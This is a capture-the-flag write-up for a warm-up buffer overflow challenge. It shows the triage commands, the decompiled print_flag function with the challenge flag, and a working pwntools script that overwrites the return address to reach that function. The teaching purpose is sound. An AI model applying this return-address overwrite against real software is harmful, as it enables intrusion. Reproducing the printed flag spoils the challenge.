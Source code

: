 # !Underflow  

**Category:** Binary Exploitation  

A simple warm-up challenge to get started with binary exploitation.  

---

### Challenge  

**Provided File:** `exploit-me`  

---

## Overview  

1. **Analyzing the Binary**  
   - Use `file exploit-me` to check the binary type.  
   - Run `strings exploit-me` to check for any readable text inside.  
   - Load the binary in **IDA Pro** or **Ghidra** to reverse-engineer its logic.  

2. **Finding the Flag Function**  
   - Decompiling the binary reveals a function called `print_flag`, which directly prints the flag:  
     ```c
     int print_flag()
     {
       return printf("%s", "ACECTF{buff3r_0v3rfl3w}");
     }
     ```
   - This means the goal is to redirect execution to `print_flag`.  

3. **Exploiting Buffer Overflow**  
   - The program has a buffer overflow vulnerability that allows overwriting the return address.  
   - By crafting a payload to overwrite the return address with the address of `print_flag`, we can trigger the function execution.  

---

## Steps to Exploit  

1. **Check Binary Properties**  
   ```sh
   file exploit-me  
   checksec --file=exploit-me  
   strings exploit-me  
   ```

2. **Find the Flag Function**  
   - Decompile `print_flag` in **IDA Pro** or **Ghidra**.  

3. **Construct Overflow Payload**  
   - Determine the buffer overflow offset using `cyclic` from `pwntools`.  
   - Overwrite the return address with `0x401156` (address of `print_flag`).  

---

## Exploit Script  

```python
from pwn import *

binary = './exploit-me'

context.log_level = 'debug'
context.binary = binary

e = ELF(binary)
r = process(binary)

r.sendline(flat([
    cyclic(64),  # Overflow buffer
    cyclic(8),   # Overwrite saved RBP
    p64(0x401156)  # Address of print_flag
]))

r.interactive()
```
